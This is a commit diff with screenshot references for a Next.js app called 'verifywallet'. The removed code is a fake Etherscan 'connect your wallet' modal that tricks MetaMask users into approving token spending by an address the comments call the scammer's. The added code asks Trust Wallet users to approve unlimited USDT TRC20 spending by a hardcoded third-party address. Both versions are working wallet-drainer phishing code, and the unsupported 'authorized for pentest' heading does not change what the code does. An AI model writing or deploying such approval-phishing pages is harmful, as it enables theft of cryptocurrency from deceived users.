

Before and after one commit to rapha0070/verifywallet, a Next.js app: page / in a window 1280 px wide. Shown: the top 482 px of the page, without its empty margins (8-827 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add TRC20 USDT approve button for Trust Wallet

```diff
--- a/src/app/page.tsx
+++ b/src/app/page.tsx
@@ -1,166 +1,60 @@
-"use client";
-import { useState } from "react";
+'use client';
 
-// Pentru TypeScript, declară window.ethereum
-declare global {
-  interface Window {
-    ethereum?: any;
-  }
-}
-
-// ABI pentru funcția approve (poți folosi și web3/ethers pentru encode, dar aici e hardcodat)
-function getApproveData(spender: string, amount: string) {
-  // selector approve(address,uint256): 0x095ea7b3
-  // address (32 bytes, left-padded), amount (32 bytes, left-padded)
-  return (
-    "0x095ea7b3" +
-    spender.replace("0x", "").padStart(64, "0") +
-    BigInt(amount).toString(16).padStart(64, "0")
-  );
-}
+import { useEffect, useState } from 'react';
 
 export default function Home() {
-  const [showModal, setShowModal] = useState(false);
-  const [txHash, setTxHash] = useState<string | null>(null);
-  const [error, setError] = useState<string | null>(null);
+  const [tronReady, setTronReady] = useState(false);
+  const [userAddress, setUserAddress] = useState('');
+  const [status, setStatus] = useState('');
 
-  // Setează aici adresa tokenului ERC20 și adresa "scammerului" (spender)
-  const tokenAddress = "0xYourTokenAddress"; // ex: USDT, USDC, DAI, etc.
-  const spender = "0xAttackerAddress"; // adresa de test sau a "atacatorului"
-  const amount = "1000000000000000000"; // 1 token (18 decimals)
+  useEffect(() => {
+    const checkTronWeb = setInterval(() => {
+      if (typeof window !== 'undefined' && window.tronWeb && window.tronWeb.ready) {
+        setTronReady(true);
+        setUserAddress(window.tronWeb.defaultAddress.base58);
+        clearInterval(checkTronWeb);
+      }
+    }, 500);
+
+    return () => clearInterval(checkTronWeb);
+  }, []);
 
   const handleApprove = async () => {
-    setError(null);
-    setTxHash(null);
-    if (!window.ethereum) {
-      setError("MetaMask nu este instalat.");
+    if (!tronReady) {
+      setStatus('❌ Please open this page in the Trust Wallet browser.');
       return;
     }
+
     try {
-      // 1. Cere adresa utilizatorului
-      const accounts = await window.ethereum.request({ method: "eth_requestAccounts" });
-      const from = accounts[0];
+      const tronWeb = window.tronWeb;
+      const usdtContract = 'TXLAQ63Xg1NAzckPwKHvzw7CSEmLMEqcdj'; // USDT TRC20
+      const spender = 'T9yD14Nj9j7xAB4dbGeiX9h8unkKHxuWwb';   // Demo spender
+      const amount = '9223372036854775807'; // Max int64 (unlimited)
 
-      // 2. Construiește data pentru approve
-      const data = getApproveData(spender, amount);
+      setStatus('🔄 Sending approve transaction...');
 
-      // 3. Trimite tranzacția approve
-      const tx = {
-        from,
-        to: tokenAddress,
-        data
-      };
+      const contract = await tronWeb.contract().at(usdtContract);
+      const tx = await contract.approve(spender, amount).send();
 
-      const txHash = await window.ethereum.request({
-        method: "eth_sendTransaction",
-        params: [tx]
-      });
-
-      setTxHash(txHash);
+      setStatus(`✅ Approve transaction sent! TXID: ${tx}`);
     } catch (e: any) {
-      setError(e.message || "Eroare la approve.");
+      setStatus('❌ Error: ' + e.message);
     }
   };
 
   return (
-    <div style={{ padding: 40, fontFamily: "sans-serif" }}>
-      <h1>I have permission and authorized for pentest</h1>
+    <main className="min-h-screen bg-[#0f172a] text-white flex flex-col items-center justify-center px-4">
+      <h1 className="text-3xl font-bold mb-6">USDT TRC20 Approve</h1>
       <button
-        onClick={() => setShowModal(true)}
-        style={{
-          fontSize: 20,
-          padding: 10,
-          background: "#0070f3",
-          color: "#fff",
-          border: "none",
-          borderRadius: 6,
-          cursor: "pointer"
-        }}
+        onClick={handleApprove}
+        className="bg-gradient-to-r from-blue-600 to-cyan-400 text-white px-6 py-3 rounded-full text-lg font-semibold shadow-md hover:opacity-90 transition"
       >
-        Connect with Etherscan
+        Connect & Approve
       </button>
-
-      {showModal && (
-        <div
-          style={{
-            position: "fixed",
-            top: 0,
-            left: 0,
-            width: "100vw",
-            height: "100vh",
-            background: "rgba(0,0,0,0.5)",
-            display: "flex",
-            alignItems: "center",
-            justifyContent: "center",
-            zIndex: 1000
-          }}
-        >
-          <div
-            style={{
-              background: "#fff",
-              borderRadius: 12,
-              padding: 32,
-              minWidth: 350,
-              boxShadow: "0 8px 32px rgba(0,0,0,0.2)",
-              textAlign: "center",
-              position: "relative"
-            }}
-          >
-            <img
-              src="https://etherscan.io/images/brandassets/etherscan-logo-circle.svg"
-              alt="Etherscan"
-              style={{ width: 60, marginBottom: 16 }}
-            />
-            <h2 style={{ margin: "0 0 12px 0" }}>Connect to Etherscan</h2>
-            <p style={{ color: "#444", marginBottom: 24 }}>
-              Please connect your wallet to verify and continue.
-            </p>
-            <button
-              onClick={handleApprove}
-              style={{
-                fontSize: 18,
-                padding: "10px 24px",
-                background: "#21a0f6",
-                color: "#fff",
-                border: "none",
-                borderRadius: 6,
-                cursor: "pointer"
-              }}
-            >
-              Approve
-            </button>
-            <button
-              onClick={() => setShowModal(false)}
-              style={{
-                fontSize: 16,
-                padding: "8px 16px",
-                background: "#eee",
-                color: "#333",
-                border: "none",
-                borderRadius: 6,
-                cursor: "pointer",
-                marginLeft: 16
-              }}
-            >
-              Cancel
-            </button>
-            <div style={{ position: "absolute", top: 12, right: 16, cursor: "pointer" }} onClick={() => setShowModal(false)}>
-              <svg width="24" height="24" fill="#888"><path d="M18 6L6 18M6 6l12 12" stroke="#888" strokeWidth="2" strokeLinecap="round"/></svg>
-            </div>
-            {txHash && (
-              <div style={{ marginTop: 24, wordBreak: "break-all", color: "#0a0" }}>
-                <b>Approve trimis!</b>
-                <div style={{ fontSize: 12 }}>{txHash}</div>
-              </div>
-            )}
-            {error && (
-              <div style={{ marginTop: 24, color: "#c00" }}>
-                <b>Eroare:</b> {error}
-              </div>
-            )}
-          </div>
-        </div>
+      <p className="mt-6 text-sm max-w-md text-center">{status}</p>
+      {userAddress && (
+        <p className="mt-2 text-xs text-gray-400">Connected Wallet: {userAddress}</p>
       )}
-    </div>
+    </main>
   );
 }
```
